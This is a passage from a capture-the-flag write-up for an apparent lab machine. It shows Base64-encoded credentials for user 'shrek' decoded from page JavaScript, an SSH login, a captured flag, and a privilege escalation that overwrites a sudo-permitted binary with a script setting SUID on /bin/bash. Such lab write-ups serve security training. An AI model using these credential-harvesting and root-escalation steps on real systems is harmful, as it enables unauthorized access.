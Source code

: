 In particular, we focus on this part of the code:

```js
console.log($.next().value),console.log($.next().value),console.log($.next().value);
	console.log("Hello, John! Welcome to the page.");
	Password:c2hyZWs6cHV0b3Blc2FvZWxhc25v;
	let f=JSON.parse('
		{
		"name":"Shrek","age":30
``` 

we find a password value that looks like a Base64-encoded string:

```
c2hyZWs6cHV0b3Blc2FvZWxhc25v
```



```bash 
echo "c2hyZWs6cHV0b3Blc2FvZWxhc25v" | base64 -d
```

Info:
```
shrek:putopesaoelasno
```

Decoding it reveals valid credentials for the user `shrek` : `putopesaoelasno`.

We attempt to authenticate as `shrek` via `SSH`, and it works successfully.

Inside the `/home/shrek` directory, we find the `user flag`.

```
7d199d72f12135ef193ad19faf9468ef
```

# PRIVILEGE ESCALATION

We check for `sudo` privileges, `SUID` binaries, and `Capabilities`.

```bash 
sudo -l
```

Info:
```
Matching Defaults entries for shrek on swamp:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User shrek may run the following commands on swamp:
    (ALL) NOPASSWD: /home/shrek/header_checker
```

We discover that we can execute the `header_checker` binary with `root` privileges. 
Therefore, we attempt to modify it so that it executes arbitrary code. 

```bash
printf '#!/bin/bash\nchmod u+s /bin/bash\n' > header_checker
```
